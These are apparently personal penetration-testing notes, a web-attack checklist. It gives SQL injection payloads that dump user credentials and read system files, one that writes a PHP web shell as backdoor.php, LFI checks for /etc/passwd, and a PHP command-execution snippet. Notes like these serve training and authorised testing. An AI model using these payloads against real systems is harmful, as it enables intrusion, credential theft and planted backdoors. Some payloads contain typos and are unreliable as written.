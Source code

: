 ## Wordlists
- Rockyou
- Cewl generated
- Seclists

## HTTP
- Check for subdomains
- Check the finxing public exploits module if exploits does not work proerply
- In case default page or require hostname, run the following commands "nslookup; server <ip>; <ip>"
- Source Code
- Directory Busting (with appropriate extensions)
- File Busting (with appropriate extensions)
- Nikto
- XSS
- SQLi (MariaDB)
    - Identify - `" OR 1=1#`
    - Identify coloumns - `1 order by 1#` (increment until error)
    - Understand the layout of output - `1 union all select 1,2,3`
    - Extracking data
        - `1 union all select 1,2,@@version`
        - `1 union all select 1,2,user()`
        - `1 union all select 1,2,table_name from information.schema.tables`
        - `1 union all select 1,2,column_name from information_schema.columns where tab;e_name='users'`
        - `1 union all select 1,username,password from users`
    - Read File
        - `1 union all select 1,2,load_file('c:/windows/system32/drivers/etc/hosts')`
    - Write File (Check even if error) (RCE)
        - `1 union all select 1,2,"<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?> into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
- Command Injection
- Directory Traversal
- LFI (Check for Log File poisoning) (try other functions if shell_exec is blocked)
    - https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/
    - Check for "c:/windows/system32/drivers/etc/hosts" on windows and "/etc/passwd" on linux
- RFI
- RCE
- File Upload
- Log Poisoning
- PHP Wrappers
- Default / Weak Credentials
- Brute Force
- Vulnerable Software
- Hidden Data in Image Files

### Execute command with PHP
```
<?php 
$exec = system('command here',$val)
?>
```
